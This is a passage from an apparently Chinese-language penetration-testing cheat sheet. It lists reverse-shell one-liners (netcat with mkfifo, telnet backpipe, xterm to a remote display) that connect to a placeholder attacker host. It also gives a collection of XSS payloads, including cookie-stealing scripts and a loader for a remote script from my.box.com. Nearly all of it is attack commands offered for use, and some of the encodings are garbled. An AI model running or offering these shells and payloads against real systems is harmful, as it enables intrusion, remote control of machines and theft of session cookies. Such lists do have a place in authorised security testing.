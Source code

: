 # 如果你安装错了 netcat 的版本，请尝试以下命令
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip >/tmp/f
TELNET 反弹 Shell
# 如果 netcat 不可用或者 /dev/tcp
mknod backpipe p && telnet attackerip 443 0<backpipe | /bin/bash 1>backpipe
XTERM 反弹 Shell
# http://baike.baidu.com/view/418628.htm
# 开启 X 服务器 (:1 – 监听 TCP 端口 6001)
apt-get install xnest
Xnest :1
# 记得授权来自目标 IP 的连接
xterm -display 127.0.0.1:1
# 授权访问
xhost +targetip
# 在目标机器上连接回我们的 X 服务器
xterm -display attackerip:1
/usr/openwin/bin/xterm -display attackerip:1
or
> $ DISPLAY=attackerip:0 xterm
XSS 备忘录
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
("< iframes > src=http://IP:PORT </ iframes >")
<script>document.location=http://IP:PORT</script>
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//–></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
";!–"<XSS>=&amp;amp;{()}
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"">
<IMG SRC=&amp;amp;#106;&amp;amp;#97;&amp;amp;#118;&amp;amp;#97;&amp;amp;#115;&amp;amp;#99;&amp;amp;#114;&amp;amp;#105;&amp;amp;#112;&amp;amp;#116;&amp;amp;#58;&amp;amp;#97;&amp;amp;#108;&amp;amp;#101;&amp;amp;#114;&amp;amp;#116;&amp;amp;#40;&amp;amp;#39;&amp;amp;#88;&amp;amp;#83;&amp;amp;#83;&amp;amp;#39;&amp;amp;#41;>
<IMG SRC=&amp;amp;#0000106&amp;amp;#0000097&amp;amp;#0000118&amp;amp;#0000097&amp;amp;#0000115&amp;amp;#0000099&amp;amp;#0000114&amp;amp;#0000105&amp;amp;#0000112&amp;amp;#0000116&amp;amp;#0000058&amp;amp;#0000097&amp;amp;#0000108&amp;amp;#0000101&amp;amp;#0000114&amp;amp;#0000116&amp;amp;#0000040&amp;amp;#0000039&amp;amp;#0000088&amp;amp;#0000083&amp;amp;#0000083&amp;amp;#0000039&amp;amp;#0000041>
<IMG SRC="jav ascript:alert('XSS');">
perl -e 'print "<IMG SRC=javascript:alert(\"XSS\")>";' > out
<BODY onload!#> $%&amp;()*~+-_.,:;?@[/|\]^`=alert("XSS")>
(">< iframes http://google.com < iframes >)
<BODY BACKGROUND="javascript:alert('XSS')">
<FRAMESET><FRAME SRC=”javascript:alert('XSS');"></FRAMESET>
"><script >alert(document.cookie)</script>
%253cscript%253ealert(document.cookie)%253c/script%253e
"><s"%2b"cript>alert(document.cookie)</script>
%22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)'%3E
<img src=asdf onerror=alert(document.cookie)>
SSH Over SCTP (使用 Socat)
# 远端服务器